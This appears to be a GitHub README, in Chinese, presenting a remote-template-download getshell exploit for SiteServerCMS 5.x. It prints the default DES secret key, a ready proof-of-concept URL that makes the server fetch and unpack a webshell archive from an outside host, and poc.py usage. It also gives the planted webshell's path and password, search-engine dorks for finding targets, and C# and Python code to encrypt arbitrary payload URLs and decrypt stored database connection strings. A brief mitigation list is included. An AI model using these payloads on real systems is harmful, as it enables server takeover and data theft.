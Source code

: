 ## SiteServerCMS-Remote-download-Getshell-vulnerability

SiteServerCMS 远程模板下载Getshell漏洞

![avatar](https://raw.githubusercontent.com/zhaoweiho/SiteServerCMS-Remote-download-Getshell/master/img/598750731.jpg)

漏洞缺陷是由于后台模板下载位置未对用户权限进行校验，且 ajaxOtherService中的downloadUrl参数可控，导致getshell，目前经过测试发现对5.0版本包含5.0以下通杀.先调用了DecryptStringBySecretKey函数将downloadurl先进行了解密，之后调用SiteTemplateDownload函数进行模板下载并自解压。

且SecretKey在5.0是默认值
> vEnfkn16t8aeaZKG3a4Gl9UUlzf4vgqU9xwh8ZV5

### References

Author:1u0hun

[简记野生应急捕获到的siteserver远程模板下载Getshell漏洞] (https://www.freebuf.com/articles/web/195105.html)



### Affected Version
SiteServerCMS 5.x

SiteServerCMS 4.x(测试没通过)

### PoC
Author:We1h0@PoxTeam

> http://localhost/SiteServer/Ajax/ajaxOtherService.aspx?type=SiteTemplateDownload&userKeyPrefix=test&downloadUrl=aZlBAFKTavCnFX10p8sNYfr9FRNHM0slash0XP8EW1kEnDr4pNGA7T2XSz0yCY0add0MS3NiuXiz7rZruw8zMDybqtdhCgxw7u0ZCkLl9cxsma6ZWqYd0G56lB6242DFnwb6xxK4AudqJ0add0gNU9tDxOqBwAd37smw0equals00equals0&directoryName=sectest


```
python2 poc.py -u http://localhost
```
![avatar](https://raw.githubusercontent.com/zhaoweiho/SiteServerCMS-Remote-download-Getshell/master/img/494367940.jpg)

```
python2 poc.py -f url.txt
```

Ps:注意最后面没/

WebShell:http://localhost/SiteFiles/SiteTemplates/sectest/include.aspx

PassWord:admin



### 搜索引擎关键字:

inurl:/sitefiles/services

inurl:/sitesever/login.aspx

### 临时修复方案
修改 

> 1.C:/WebSite/SiteFiles/Configuration/Configuration.config

secretKey的值

> 2.更改后台地址

> 3.更改(或移除模板下载功能)/SiteServer/Ajax/ajaxOtherService.aspx路径

### downloadUrl加密工具
#### C#
[VSCODE配置C#](https://blog.csdn.net/qq_40346899/article/details/80955788)

<CODE>dotnet new console -o test</CODE>

<CODE>dotnet run</CODE>
生成目录后的Program.cs替换以下代码

1.然后修改_inputString的值(你指定的下载地址)
```C#
using System; 
using System.IO; 
using System.Security.Cryptography; 
using System.Text; 
namespace EncryptApplication 
{ class Encrypt 
    { static void Main(string[] args) 
      { 
        var _encryptKey = "vEnfkn16t8aeaZKG3a4Gl9UUlzf4vgqU9xwh8ZV5"; 
        var _decryptKey = "vEnfkn16t8aeaZKG3a4Gl9UUlzf4vgqU9xwh8ZV5";
        var _inputString = "https://raw.githubusercontent.com/zhaoweiho/SiteServerCMS-Remote-download-Getshell/master/webshell/poxteam.zip";
        var _outString = ""; var _noteMessage = "";
        byte[] iv = { 0x12, 0x34, 0x56, 0x78, 0x90, 0xAB, 0xCD, 0xEF };
        try{ 
           var byKey = Encoding.UTF8.GetBytes(_encryptKey.Length > 8 ? _encryptKey.Substring(0, 8) : _encryptKey); 
          var des = new DESCryptoServiceProvider(); 
          var inputByteArray = Encoding.UTF8.GetBytes(_inputString); 
          var ms = new MemoryStream(); 
          var cs = new CryptoStream(ms, des.CreateEncryptor(byKey, iv), CryptoStreamMode.Write);     cs.Write(inputByteArray, 0, inputByteArray.Length);
         cs.FlushFinalBlock();
          _outString = Convert.ToBase64String(ms.ToArray()); 
         Console.WriteLine("DesEncrypt:"); Console.WriteLine(_outString); }
      catch (Exception error) { _noteMessage = error.Message; } 
 } } }
```

![avatar](https://raw.githubusercontent.com/zhaoweiho/SiteServerCMS-Remote-download-Getshell/master/img/545223712.jpg)

2.把出来的结果丢这里

Python

```python
str_decry = "aZlBAFKTavCnFX10p8sNYfr9FRNHM/XP8EW1kEnDr4pNGA7T2XSz0yCY+MS3NiuXiz7rZruw8zMDybqtdhCgxw7u0ZCkLl9cxsma6ZWqYd0G56lB6242DFnwb6xxK4AudqJ+gNU9tDxOqBwAd37smw=="
str_decry = str_decry.replace("+", "0add0").replace("=", "0equals0").replace("&", "0and0").replace("?", "0question0").replace("/", "0slash0")

print str_decry
```

![avatar](https://raw.githubusercontent.com/zhaoweiho/SiteServerCMS-Remote-download-Getshell/master/img/1213922991.jpg)

得出转义后的下载链接，修改Poc.py 

<code>/SiteServer/Ajax/ajaxOtherService.aspx?type=SiteTemplateDownload&userKeyPrefix=test&downloadUrl=这里&directoryName=sectest</code>

### downloadUrl解密工具

(也可以用来解web.config的数据库链接信息,密钥不变的情况下,如果密钥变了找SiteFiles/Configuration/Configuration.config的secretKey的值)

1.先用python的还原

```python
str_decry = "aZlBAFKTavCnFX10p8sNYfr9FRNHM0slash0XP8EW1kEnDr4pNGA7T2XSz0yCY0add0MS3NiuXiz7rZruw8zMDybqtdhCgxw7u0ZCkLl9cxsma6ZWqYd0G56lB6242DFnwb6xxK4AudqJ0add0gNU9tDxOqBwAd37smw0equals00equals0"
str_decry = str_decry.replace("0add0", "+").replace("0equals0", "=").replace("0and0", "&").replace("0question0", "?").replace("0slash0", "/")

print str_decry

```

![avatar](https://raw.githubusercontent.com/zhaoweiho/SiteServerCMS-Remote-download-Getshell/master/img/1853999564.jpg)

2.再用c#以下的代码还原回默认下载链接

```c#
using System; 
using System.IO; 
using System.Security.Cryptography; 
using System.Text; 
namespace EncryptApplication 
{ class Encrypt 
    { static void Main(string[] args) 
      { 
        var _encryptKey = "vEnfkn16t8aeaZKG3a4Gl9UUlzf4vgqU9xwh8ZV5"; 
        var _decryptKey = "vEnfkn16t8aeaZKG3a4Gl9UUlzf4vgqU9xwh8ZV5";
        var _inputString = "aZlBAFKTavCnFX10p8sNYfr9FRNHM/XP8EW1kEnDr4pNGA7T2XSz0yCY+MS3NiuXiz7rZruw8zMDybqtdhCgxw7u0ZCkLl9cxsma6ZWqYd0G56lB6242DFnwb6xxK4AudqJ+gNU9tDxOqBwAd37smw==";
        var _outString = ""; 
        var _noteMessage = "";
        byte[] iv = { 0x12, 0x34, 0x56, 0x78, 0x90, 0xAB, 0xCD, 0xEF };
        try
        { 
          var byKey = Encoding.UTF8.GetBytes(_decryptKey.Substring(0, 8)); 
          var des = new DESCryptoServiceProvider(); 
          var inputByteArray = Convert.FromBase64String(_inputString);
          var ms = new MemoryStream(); 
          var cs = new CryptoStream(ms, des.CreateDecryptor(byKey, iv), CryptoStreamMode.Write);
              cs.Write(inputByteArray, 0, inputByteArray.Length);
              cs.FlushFinalBlock();
          Encoding encoding = new UTF8Encoding();
          _outString = encoding.GetString(ms.ToArray());
         Console.WriteLine("DesEncrypt:"); Console.WriteLine(_outString); }
      catch (Exception error) { _noteMessage = error.Message; } 
 } } }
 
```

![avatar](https://raw.githubusercontent.com/zhaoweiho/SiteServerCMS-Remote-download-Getshell/master/img/1818119636.jpg)

